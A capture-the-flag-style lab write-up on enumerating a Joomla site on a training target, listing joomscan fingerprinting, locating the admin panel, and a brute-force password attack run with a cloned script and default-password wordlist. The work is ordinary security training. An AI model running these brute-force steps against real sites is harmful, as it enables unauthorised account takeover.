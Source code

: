 # Joomla - Discovery & Enumeration Writeup

**Target IP**: 10.129.250.241

**VHOST**: app.inlanefreight.local

## Step 1: Add Target to /etc/hosts
First, to properly resolve the given virtual host, I manually added the following entry to my /etc/hosts file:
```bash
sudo nano /etc/hosts
```
Added:
```bash
10.129.250.241  app.inlanefreight.local
```
## Step 2: Fingerprint the Joomla Version
Next, I needed to identify the Joomla version running on the target.

I installed joomscan (if not already installed):

```bash
sudo apt install joomscan
```
Then ran the following scan:
```bash
joomscan --url http://app.inlanefreight.local
```
![image](https://github.com/user-attachments/assets/f6eb95fa-b07f-4c76-a759-22f322e74954)

Found the Joomla version.

## Step 3: Find the Joomla Admin Login Page
While running joomscan, I found that the Joomla admin login panel is located at:
```pgsql
http://app.inlanefreight.local/administrator/index.php
```
![image](https://github.com/user-attachments/assets/cf7bd58d-5909-430a-a966-7f57b8273b0e)

## Step 4: Brute Force the Admin Password
To brute-force the Joomla admin password, I downloaded the Joomla brute force script from GitHub:
```bash
git clone https://github.com/ajnik/joomla-bruteforce.git
```
Then navigated into the cloned directory:

`cd joomla-bruteforce`

Ran the brute-force attack:

```bash
sudo python3 joomla-brute.py -u http://app.inlanefreight.local/administrator/index.php -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

![image](https://github.com/user-attachments/assets/ad1f7899-8d87-4a2d-93f3-55133082ea91)

Successfully found the password for the admin user.

## Summary

| **Category**         | **Details**                                               |
|-----------------------|------------------------------------------------------------|
| **IP Address**        | 10.129.250.241                                             |
| **VHOST**             | app.inlanefreight.local                                    |
| **Joomla Version**    | x.x.x (identified using `joomscan`)                        |
| **Admin Panel URL**   | [http://app.inlanefreight.local/administrator/index.php](http://app.inlanefreight.local/administrator/index.php) |
| **Brute-force Tool**  | [joomla-brute.py](https://github.com/ajnik/joomla-bruteforce) |
| **Wordlist Used**     | `/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt` |
| **Username**          | admin                                                      |
| **Password**          | *(Found after brute-forcing)*                              |
